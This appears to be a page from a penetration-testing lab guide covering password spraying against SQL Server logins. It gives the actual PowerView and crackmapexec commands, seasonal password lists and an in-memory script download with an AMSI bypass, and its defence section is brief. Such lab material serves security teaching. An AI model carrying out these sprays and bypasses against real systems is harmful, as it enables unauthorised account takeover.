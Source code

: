 # Weak passwords

## Configuring

### Prerequisite&#x20;

The weak passwords were configured during the creation of the SQL Server users and Domain users in the section "Enumerate Logins".

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Attacking

### How it works

SQL Servers can have two type of accounts that could connect to it. Domain user accounts and groups or SQL Server accounts. These accounts have access to the SQL server and might have higher privileges then we currently have. By spraying passwords against these user we might get access to them.

#### Password spraying

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

A old habit what a lot of companies enforce is the requirement to change passwords every 30, 60 or 90 days. Which results in people changing their password often, forgetting it and eventually choosing a easy guessable password. Another habbit is adding a increment to the same password or using months/seasons. Which means we can easily create a password list of common passwords and things people would choose using following formats:

* season+year+! (Summer2022!)
* month+year+! (March2022!)
* companyname+year+! (Amsterdambank2022!)
* city+! (Amsterdam!)
* etc.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

### Executing the attack

1. So during the enumeration we discovered that there are three domain users or groups: `AMSTERDAM\richard`,  `BANK\administrator` and `AMSTERDAM\DatabaseUsers`.&#x20;
2. To check which of these are users and groups, login to `WS01` as `Richard` with the password `Sample123`.
3. Download PowerView on the kali machine and host it on a webserver:

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

4\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../../../.gitbook/assets/image (7).png>)

5\. Now we can query these objects using PowerView and the `Get-DomainObject` cmdlet. We already know who Richard is and the Administrator is a well known user. We will query DatabaseUsers:

```
Get-DomainObject DatabaseUsers
```

![](<../../../../../.gitbook/assets/image (52) (1).png>)

6\. The output shows us that the `DatabasUsers` is a group object and that `bob` is its only member.

7\. We already sprayed passwords at the SQL server during the initial access steps. We will do it again here. First we need to make a list of the enumerated logins, we will split them in `sqlusers.txt` and `domainusers.txt`.

```
# sqlusers.txt
Developer
Developer_test
testadmin
bob
SQLAdmin

# domainusers.txt
bob
```

8\. Secondly create a `passwords.txt` file and copy the following passwords like we did during the password spraying attack earlier and we will also add the usernames since sometimes admin set the username as the password:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
Fall2022!
testadmin
bob
SQLAdmin
Developer
Developer_test
```

9\. First we will run Crackmapexec to connect to the MSSQL service running on `WEB01` and spray with local SQL users. We have to use the `--local-auth` flag otherwise it will spray under the domain context. We will also use the `--continue-on-success` flag so it doesn't stop after the first successfull hit.

```
crackmapexec mssql 10.0.0.5 -u sqlusers.txt -p passwords.txt --local-auth --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (12) (1) (1) (1).png>)

We found the password for three users and it seems thats `SQLAdmin` has sysadmin rights since it shows `Pwn3d!` , this means it has admin rights. Since we are spraying MSSQL logins this means sysadmin rights. If we were spraying with SMB it meant the user was localadmin on the machine.

10\. We can also run Crackmapexec with the domain context:

```
crackmapexec mssql 10.0.0.5 -u domainusers.txt -p passwords.txt --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png>)

We discovered the password of another user `bob`, but this time the Domain User. We already connected to the SQL service using both SQL accounts and Domain user accounts. This can be done with tools such as mssql-cli or heidiSQL.&#x20;

11\. Something we didn't show is that its possible to execute sql queries with crackmapexec:

```
crackmapexec mssql 10.0.0.5 -u SQLAdmin -p Winter2022! --local-auth -q "select @@version"
```

![](<../../../../../.gitbook/assets/image (36) (1).png>)

There will always be loads of tools which can do the same stuff, it will always come down to convenience and where you are used too or like the most. Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../../executing-commands.md" %}
[executing-commands.md](../../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Implement a strong password policy:

{% content-ref url="../../../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
